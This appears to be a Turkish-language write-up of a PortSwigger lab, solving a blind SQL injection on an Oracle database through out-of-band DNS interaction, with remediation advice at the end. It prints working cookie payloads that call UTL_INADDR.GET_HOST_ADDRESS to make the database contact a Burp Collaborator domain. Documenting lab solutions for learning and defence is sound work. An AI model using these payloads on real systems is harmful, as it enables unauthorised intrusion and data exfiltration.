


# Blind SQL injection with out-of-band interaction

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için blind SQL injection yapılabiliyordu. Uygulama veritabanı çıktısını, hata mesajını veya response içeriğinde belirgin bir farkı göstermiyordu. Bu nedenle zafiyeti doğrulamak için out-of-band interaction tekniği kullanıldı.

Amaç, SQL injection payload'ı ile veritabanı sunucusuna dış bir domaine DNS isteği yaptırmak ve bu etkileşim üzerinden injection'ın çalıştığını kanıtlayarak labı tamamlamaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değerini test etmek için Repeater'a gönderdim.

2. Lab Oracle veritabanı üzerinde çalıştığı için cookie değerine `UTL_INADDR.GET_HOST_ADDRESS()` fonksiyonunu çağıran bir payload ekledim. Fonksiyon parametresi olarak Burp Collaborator/OAST tarafından verilen domaini kullandım:

```sql
+'||UTL_INADDR.GET_HOST_ADDRESS('ceyj2cyso6j7kaw9m2h1lcsqwh28c7ew.oastify.com')--
```

3. Payload gönderildiğinde HTTP response normal `200 OK` olarak döndü. Response içinde veri sızıntısı veya hata mesajı görünmedi; ancak sorgu veritabanında çalıştığı için sunucu OAST domainine out-of-band DNS isteği oluşturdu.



4. Out-of-band interaction başarıyla oluştuğu için PortSwigger labı çözüldü.



## 4. Kullanılan Payloadlar

- Oracle `UTL_INADDR.GET_HOST_ADDRESS()` fonksiyonu ile OAST domainine DNS lookup yaptırmak için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||UTL_INADDR.GET_HOST_ADDRESS('<collaborator-domain>')--; session=<session-id>
```

- Ekran görüntüsünde kullanılan örnek:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'||UTL_INADDR.GET_HOST_ADDRESS('ceyj2cyso6j7kaw9m2h1lcsqwh28c7ew.oastify.com')--; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Uygulama response içinde veri veya hata mesajı göstermese bile SQL sorgusundan dış sisteme istek tetiklenebildiğini doğruladım.
- Oracle `UTL_INADDR.GET_HOST_ADDRESS()` fonksiyonu ile OAST domainine DNS lookup yaptırdım.
- Out-of-band interaction oluştuğu için blind SQL injection zafiyetini kanıtladım ve labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın response içinde herhangi bir veri görmediği durumlarda bile veritabanı sunucusuna dış sistemlerle etkileşim kurdurmasına neden olabilir. Out-of-band SQL injection teknikleriyle zafiyet doğrulanabilir, bazı senaryolarda veri DNS/HTTP istekleri üzerinden dışarı aktarılabilir ve veritabanı ortamı hakkında hassas bilgiler elde edilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı fonksiyonlarının kullanıcı girdisiyle kontrol edilebilir hale gelmesini engelle.
- Veritabanı sunucusunun gereksiz dış DNS/HTTP erişimlerini kısıtla.
- Out-of-band DNS ve HTTP etkileşimlerini logla ve anormal istekler için alarm üret.
- Veritabanı kullanıcısına minimum yetki ver.
